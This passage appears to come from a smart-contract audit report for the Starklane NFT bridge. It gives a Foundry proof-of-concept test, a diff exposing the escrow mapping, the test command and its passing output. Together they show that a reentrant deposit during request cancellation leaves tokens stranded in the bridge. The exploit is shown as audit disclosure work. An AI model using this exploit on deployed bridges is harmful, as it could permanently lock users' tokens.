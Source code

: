 ```solidity
        IStarklane(bridge).startRequestCancellation(payload, nonce);

        skip(delay * 1 seconds);
        // - Cancel request will transfer NFTs to the receiver and call `onERC721Received`
        // - We will call bridge.depositTokens
        // - Tokens will get escrowed by the Bridge
        // - onERC721Received will return back
        // - Token will get Burned
        // - The recever will receive his NFT on L2
        IStarklane(bridge).cancelRequest(payload, nonce);

        assert(IERC721(erc721C1).ownerOf(ids[0]) == bridge);
        assert(IERC721(erc721C1).ownerOf(ids[1]) == bridge);
        assert(IStarklaneEscrowed(bridge)._escrow(erc721C1, 0) == address(0x00));
        assert(IStarklaneEscrowed(bridge)._escrow(erc721C1, 1) == address(0x00));


        console2.log("Token[0] owner:", IERC721(erc721C1).ownerOf(ids[0]));
        console2.log("Token[1] owner:", IERC721(erc721C1).ownerOf(ids[1]));
        console2.log("Token[0] escrowed:", IStarklaneEscrowed(bridge)._escrow(erc721C1, 0));
        console2.log("Token[1] escrowed:", IStarklaneEscrowed(bridge)._escrow(erc721C1, 1));
    }
}
```

Since `escrow` variable is private, you will need to make it a `public` visibility in order for the test to work, add the public visibility to it.

[Escrow.sol#L17](https://github.com/Cyfrin/2024-07-ark-project/blob/main/apps/blockchain/ethereum/src/Escrow.sol#L17)
```diff
-   mapping(address => mapping(uint256 => address)) _escrow;
+   mapping(address => mapping(uint256 => address)) public _escrow;
```

On the cmd write the following command.
```shell
forge test --mt test_auditor_deposit_before_burn -vv
```

> Output:
```powershell
[PASS] test_auditor_deposit_before_burn() (gas: 1176814)
Logs:
  Token[0] owner: 0xc7183455a4C133Ae270771860664b6B7ec320bB1
  Token[1] owner: 0xc7183455a4C133Ae270771860664b6B7ec320bB1
  Token[0] escrowed: 0x0000000000000000000000000000000000000000
  Token[1] escrowed: 0x0000000000000000000000000000000000000000
```

The POC checks that the Bridge will end up being the owner of the tokens, and they are not escrowed, which means anyone who tries to withdraw it back when bridging from `L2` to `L1` will end up trying minting it which will revert.
